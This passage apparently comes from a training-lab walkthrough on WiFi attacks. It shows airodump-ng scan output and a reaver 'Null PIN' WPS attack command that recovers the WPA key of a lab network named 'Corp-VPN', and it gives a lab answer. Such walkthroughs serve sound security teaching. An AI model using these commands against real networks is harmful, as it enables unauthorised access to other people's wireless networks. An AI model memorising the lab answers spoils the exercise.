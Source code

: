 ```
[+] AP SSID: 'HackTheWifi'
```

Answer: `WhatisRealANdNot`

# Online PIN Brute-Forcing Using Reaver

## Question 2

### "What is the WPA PSK for the WIFI Network named Corp-VPN?"

Students will reuse the previously established RDP session. Additionally, students will refer to the output of the previous wireless network scan using `airodump-ng` to obtain the MAC address (`22:FB:96:FA:D5:D6`) of the `Corp-VPN` network:

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

CH 11 ][ Elapsed: 6 s ][ 2024-11-04 07:52 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 D8:D7:3D:EB:29:D5  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    CyberNetSecure                                         
 22:FB:96:FA:D5:D6  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    Corp-VPN                                               
 72:54:37:49:34:D3  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheWifi  
```

Subsequently, students will use `reaver` and are going to perform a `Null PIN` attack to obtain the pre-shared key:

Code: shell

```shell
reaver -i mon0 -b 22:FB:96:FA:D5:D6 -c 1 -p " "
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -b 22:FB:96:FA:D5:D6 -c 1 -p " "

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 22:FB:96:FA:D5:D6
[+] Received beacon from 22:FB:96:FA:D5:D6
[!] Found packet with bad FCS, skipping...
[+] Associated with 22:FB:96:FA:D5:D6 (ESSID: Corp-VPN)
[+] WPS PIN: ' '
[+] WPA PSK: '{hidden}'
[+] AP SSID: 'Corp-VPN'
```
